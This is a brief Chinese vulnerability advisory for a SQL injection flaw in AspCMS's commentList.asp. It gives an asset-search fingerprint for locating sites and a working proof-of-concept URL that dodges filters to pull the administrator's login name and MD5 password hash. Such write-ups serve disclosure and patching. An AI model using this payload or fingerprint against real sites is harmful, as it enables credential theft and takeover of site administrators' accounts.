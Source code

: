 # AspCMS commentList.asp SQL注入漏洞

## 漏洞描述

AspCMS commentList.asp 存在SQL注入漏洞，攻击者通过漏洞可以获取管理员md5的密码

## 漏洞影响

<a-checkbox checked>AspCMS</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="ASPCMS"</a-checkbox></br>

## 漏洞复现

通过网站源码响应判断CMS

![img](../../../.vuepress/public/img/1628478800340-8ab8b7c0-3f74-4294-bac5-4153b18ae8c9.png)

验证POC

```php
/plug/comment/commentList.asp?id=-1%20unmasterion%20semasterlect%20top%201%20UserID,GroupID,LoginName,Password,now(),null,1%20%20frmasterom%20{prefix}user
```

![img](../../../.vuepress/public/img/1628478943060-7c05774b-519d-47cf-ad9a-05fb52f74253.png)

成功获取管理员账号以及密码的MD5